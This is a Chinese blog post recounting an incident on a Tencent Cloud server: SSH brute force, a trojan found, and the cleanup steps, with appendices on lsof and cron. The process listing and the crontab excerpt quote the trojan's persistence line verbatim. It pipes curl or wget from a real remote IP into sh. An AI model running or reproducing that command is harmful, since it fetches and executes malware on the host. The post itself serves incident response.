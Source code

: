 ```yaml
---
title: ECS遭遇安全攻击的一次经历
date: 2019-05-04 20:11:03
tags:
---
```


突然，腾讯云发出安全提示信息，先是SSH暴力破解的警告，过了几天又是ECS被植入木马的警告，Linux的安全防护被提上日程了！

## 服务器的问题表现

{% asset_img alert-0.png 腾讯云的警告信息汇总%}

- 登录ECS服务器，用`top`命令检查系统状态，发现CPU负荷长期维持100%，系统响应缓慢，其中`/tmp/vThHH`严重消耗资源，确认中招了！

{% asset_img alert-1.png SSH暴力破解的警告信息%}

- 服务器的root口令没有变化，但登录成功时提示有几百个`failed login attempts`，说明SSH口令已经被暴力破解

## 系统检查的主要工作

主要从以下几个方面入手：

1. 检查网络服务

    使用`netstat -nlp`，发现除了22，80，443端口，还对外暴露了可疑的7946端口，调用者是`/tmp/vThHH`。

2. 检查系统进程

    通过`ps -ef`命令，跟踪可疑进程`/tmp/vThHH`，发现父进程就是木马程序`/usr/bin/ybznfa2`。
    进一步检查，发现了木马的加载进程。

    ``` bash
    root      4365   736  0 18:30 ?        00:00:00 /usr/sbin/CROND -n
    root      4366  4365  0 18:30 ?        00:00:00 /bin/sh -c (/usr/bin/ybznfa2||/usr/libexec/ybznfa2||/usr/local/bin/ybznfa2||/tmp/ybznfa2||curl -m180 -fsSL http://109.237.25.145:8000/i.sh||wget -q -T180 -O- http://109.237.25.145:8000/i.sh) | sh
    root      4367  4366  0 18:30 ?        00:00:00 /bin/sh -c (/usr/bin/ybznfa2||/usr/libexec/ybznfa2||/usr/local/bin/ybznfa2||/tmp/ybznfa2||curl -m180 -fsSL http://109.237.25.145:8000/i.sh||wget -q -T180 -O- http://109.237.25.145:8000/i.sh) |sh
    ```

3. 检查cron任务

该木马由crond启动，通过`crontab -u root -l`检查定时任务，发现每15分钟就执行一次上述bash脚本，这就是木马的埋点！

    ``` bash
    */15 * * * * (/usr/bin/ybznfa2||/usr/libexec/ybznfa2||/usr/local/bin/ybznfa2||/tmp/ybznfa2||curl -fsSL -m180 http://109.237.25.145:8000/i.sh||wget -q -T180 -O- http://109.237.25.145:8000/i.sh) | sh
    ```

## 该木马的工作原理

- 通过网络爬虫等手段收集服务器域名信息
- 以服务器默认的root用户，通过ssh暴力破解获得口令
- 通过ssh登录，添加cron定时任务，从远端服务器下载木马程序，并存放在多个目录下
- 后台启动木马，打开自定义端口进行远程控制

## 处理措施

- 手工清理cron的任务清单
- 手工杀死`/tmp/vThHH`，`/usr/bin/ybznfa2`等可疑进程
- 手工删除上述木马程序
- 检查系统进程、网络服务、定时任务等状态，确认问题解决

## 如何彻底解决SSH暴力破解的威胁？

最有效的方法就是，关闭口令登录方式，改为密钥登录，请参见下一片文章。

***应该说，腾讯云提供的安全服务还是比较有效的，赞一个！***

---

## 附录1: 关于lsof命令

查看被占用端口的归属进程，可用使用`lsof -i:<port>`命令。

``` bash
[root@VM_0_17_centos log]# lsof -i:80
COMMAND PID  USER   FD   TYPE DEVICE SIZE/OFF NODE NAME
nginx   936  root    6u  IPv4  15296      0t0  TCP *:http (LISTEN)
nginx   937 nginx    6u  IPv4  15296      0t0  TCP *:http (LISTEN)
```

查看某个进程使用的系统资源信息，包括文件、端口等，可以使用`lsof -p <pid>` 命令。

``` bash
[root@VM_0_17_centos log]# lsof -p 527
COMMAND   PID USER   FD      TYPE             DEVICE SIZE/OFF   NODE NAME
YDService 527 root  cwd       DIR              253,1     4096 525988 /usr/local/qcloud/YunJing/YDEyes
YDService 527 root  rtd       DIR              253,1     4096      2 /
YDService 527 root  txt       REG              253,1  5194952 525989 /usr/local/qcloud/YunJing/YDEyes/YDService
YDService 527 root  mem       REG              253,1    68192 266804 /usr/lib64/libbz2.so.1.0.6
YDService 527 root  mem       REG              253,1   157424 266780 /usr/lib64/liblzma.so.5.2.2
YDService 527 root  mem       REG              253,1    90248 265916 /usr/lib64/libz.so.1.2.7
YDService 527 root  mem       REG              253,1    99944 266803 /usr/lib64/libelf-0.170.so
YDService 527 root  mem       REG              253,1    19896 266044 /usr/lib64/libattr.so.1.1.0
YDService 527 root  mem       REG              253,1   297360 274746 /usr/lib64/libdw-0.170.so
YDService 527 root  mem       REG              253,1    20032 266047 /usr/lib64/libcap.so.2.22
YDService 527 root  mem       REG              253,1    86544 274509 /usr/lib64/libnss_myhostname.so.2
YDService 527 root  mem       REG              253,1   106848 265653 /usr/lib64/libresolv-2.17.so
YDService 527 root  mem       REG              253,1    31824 265641 /usr/lib64/libnss_dns-2.17.so
YDService 527 root  mem       REG              253,1    62184 265643 /usr/lib64/libnss_files-2.17.so
YDService 527 root  mem       REG              253,1  2173512 265625 /usr/lib64/libc-2.17.so
YDService 527 root  mem       REG              253,1    88720 262170 /usr/lib64/libgcc_s-4.8.5-20150702.so.1
YDService 527 root  mem       REG              253,1  1139680 265633 /usr/lib64/libm-2.17.so
YDService 527 root  mem       REG              253,1   995840 265950 /usr/lib64/libstdc++.so.6.0.19
YDService 527 root  mem       REG              253,1    19776 265631 /usr/lib64/libdl-2.17.so
YDService 527 root  mem       REG              253,1   144792 265651 /usr/lib64/libpthread-2.17.so
YDService 527 root  mem       REG              253,1    44448 265655 /usr/lib64/librt-2.17.so
YDService 527 root  mem       REG              253,1   164240 265618 /usr/lib64/ld-2.17.so
YDService 527 root    0w      REG              253,1   227581 525140 /usr/local/qcloud/YunJing/log/ydservice.20190505.log
YDService 527 root    1u      CHR                1,3      0t0   5078 /dev/null
YDService 527 root    2u  a_inode               0,10        0   5074 [eventpoll]
YDService 527 root    3uW     REG               0,19        3  13104 /run/YDService.pid
YDService 527 root    4u     IPv4              17010      0t0    TCP VM_0_17_centos:45598->169.254.0.55:lsi-bobcat (ESTABLISHED)
YDService 527 root    5u     unix 0xffff8da7babcec00      0t0  17082 /usr/local/yd.socket.server
YDService 527 root    6u  a_inode               0,10        0   5074 [timerfd]
YDService 527 root    7r  a_inode               0,10        0   5074 inotify
YDService 527 root    8u  a_inode               0,10        0   5074 [timerfd]
YDService 527 root    9u  a_inode               0,10        0   5074 [timerfd]
YDService 527 root   10u  a_inode               0,10        0   5074 [timerfd]
YDService 527 root   11u  a_inode               0,10        0   5074 [timerfd]
YDService 527 root   24u     unix 0xffff8da7bb51fc00      0t0  17639 /usr/local/yd.socket.server
```

## 附录2：关于crontab命令

- crond是常用的木马启动入口，主要的配置文件存放在 `/var/spool/cron/`目录下。

``` bash
[root@VM_0_17_centos etc]# ls -l /var/spool/cron
总用量 4
drwxr-xr-x 2 root root 4096 4月  18 20:58 crontabs
-rw------- 1 root root    0 5月   5 11:10 root
```

- 也可能存放在`/etc/cron.d/`等类似目录下。

``` bash
[root@VM_0_17_centos etc]# ls -lF /etc |grep cron
-rw-------.  1 root root      541 4月  11 2018 anacrontab
drwxr-xr-x.  2 root root     4096 4月  30 16:47 cron.d/
drwxr-xr-x.  2 root root     4096 8月   8 2018 cron.daily/
-rw-------.  1 root root        0 4月  11 2018 cron.deny
drwxr-xr-x.  2 root root     4096 8月   8 2018 cron.hourly/
drwxr-xr-x.  2 root root     4096 6月  10 2014 cron.monthly/
-rw-r--r--.  1 root root      451 6月  10 2014 crontab
drwxr-xr-x.  2 root root     4096 6月  10 2014 cron.weekly/
```

- cron的运行日志保存在`/var/log/cron`文件中，内容格式为

``` bash
[root@VM_0_17_centos log]# head /var/log/cron

Dec 21 09:11:35 VM_0_17_centos crontab[1627]: (root) LIST (root)
Dec 21 09:11:35 VM_0_17_centos crontab[1626]: (root) REPLACE (root)
Dec 21 09:11:42 VM_0_17_centos crontab[1698]: (root) LIST (root)
Dec 21 09:11:42 VM_0_17_centos crontab[1702]: (root) LIST (root)
Dec 21 09:11:42 VM_0_17_centos crontab[1701]: (root) REPLACE (root)
Dec 21 09:11:42 VM_0_17_centos crontab[1728]: (root) LIST (root)
Dec 21 09:11:42 VM_0_17_centos crontab[1730]: (root) REPLACE (root)
Dec 21 09:12:02 VM_0_17_centos CROND[1811]: (root) CMD (/usr/local/qcloud/stargate/admin/start.sh > /dev/null 2>&1 &)
Dec 21 09:12:32 VM_0_17_centos crond[739]: (CRON) INFO (Shutting down)
```

- [crontab配置方法的参考文档](http://www.cnblogs.com/longjshz/p/5779215.html)
